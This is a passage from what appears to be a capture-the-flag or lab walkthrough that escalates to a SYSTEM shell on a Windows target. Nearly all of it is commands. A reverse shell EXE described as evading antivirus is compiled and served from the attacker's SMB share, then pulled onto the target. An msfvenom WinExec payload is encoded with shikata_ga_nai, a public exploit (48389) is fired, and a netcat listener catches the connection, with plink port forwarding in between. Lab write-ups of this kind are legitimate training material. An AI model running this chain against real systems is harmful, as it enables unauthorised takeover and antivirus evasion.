netstat -tnap
```


Next, generate a new `WinExec` payload for the exploit. Since there is AV running on the target, it is better to generate a new reverse shell EXE and upload it to the target that connects back on a different port since this shell has been proven to bypass AV already:

- **NOTE:** The payload _may_ not work if dynamic AV detection catches the Win32 API call to `WinExec` and the payload matches signature detection! If that happens, a hand crafted payload will work better: https://github.com/a-rey/0xDEADBEEF/blob/master/windows/x86/WinExec/WinExec.asm 

```bash
# on kali, edit bubba.c to have TARGET_PORT set to 7777 and compile new payload
i686-w64-mingw32-gcc bubba.c -o bubba.root.exe -s -lws2_32
# on kali, host new payload (if not already done)
sudo impacket-smbserver -smb2support BUBBA .
# on target, download payload
robocopy \\10.10.14.17\BUBBA\ . bubba.root.exe /copy:DT /w:1 /r:1 /v
# on target, start port foward (if not already done)
.\plink.exe -ssh -P 9999 -l user -pw "<password>" -v -N -R 8888:127.0.0.1:8888 10.10.14.17
# on kali, generate a new payload for the exploit
msfvenom -p windows/exec \
         CMD='C:\xampp\htdocs\gym\upload\bubba.root.exe' \
         –e x86/shikata_ga_nai \
         -i 10 \
         -a x86 \
         -f python \
         -b '\x00\x0A\x0D' \
         -v payload
 # on kali, copy down the exploit 48389.py and replace the "payload" with the new one
 searchsploit -m 48389
 # on kali, start a listener & run the exploit
 nc -nvlp 7777
 python 48389.py
```


And that gives the SYSTEM shell! 